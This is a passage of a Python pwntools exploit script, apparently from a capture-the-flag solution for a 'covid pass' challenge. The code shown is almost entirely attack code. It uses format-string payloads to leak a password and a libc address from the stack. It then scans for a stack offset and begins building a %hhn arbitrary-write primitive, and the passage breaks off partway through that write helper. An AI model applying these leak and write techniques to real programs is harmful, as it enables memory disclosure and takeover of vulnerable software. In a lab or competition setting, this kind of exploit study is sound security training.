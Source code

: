 ```py

for i in range(6, 11):
    payload += "%{}$p ".format(i).encode()

io.sendline(payload)

io.recvuntil(b"Your covid pass is invalid : ")

password = ""

for i in range(0, 5):
    leak = int(io.recvuntil(b" ", drop=True), 0)

    while leak > 0:
        password += chr(leak % 0x100)
        leak //= 0x100;

io.success("Password: {}".format(password))

io.sendlineafter(b"try again ..\n\n", b"%31$p")

io.recvuntil(b"Your covid pass is invalid : ")
leak = int(io.recvuntil(b"\n", drop=True), 0)
libc.address = leak - libc.libc_start_main_return

io.success("Libc: {}".format(hex(libc.address)))

io.sendlineafter(b"try again ..\n\n", b"%33$p")

io.recvuntil(b"Your covid pass is invalid : ")
leak = int(io.recvuntil(b"\n", drop=True), 0)
stack = leak

diff = 0

while True:
    addr = stack + diff
    payload = flat({
        0x0: b'%20$p<<< BEGIN >>>%20$s<<< END >>>',
        0x40: p64(addr),
    })

    io.sendlineafter(b"try again ..\n\n", payload)
    io.recvuntil(b"Your covid pass is invalid : ")
    io.info("trying " + io.recvuntil(b"<<< BEGIN >>>", drop=True).decode())
    leak = io.recvuntil(b"<<< END >>>", drop=True)
    if len(leak) > 0 and leak in p64(addr):
        io.info("Stack offset: {}".format(diff))
        break
    diff -= 0x8

stack = stack + diff - (14 * 0x8)
io.success("Stack: {}".format(hex(stack)))

def writeByteAtAddr(byte, addr):
    io.info("writing " + hex(byte) + " to " + hex(addr))
    fmt = ""

    if byte > 0:
        fmt += "%{}c".format(byte % 0x100)

    fmt += "%20$hhn"

```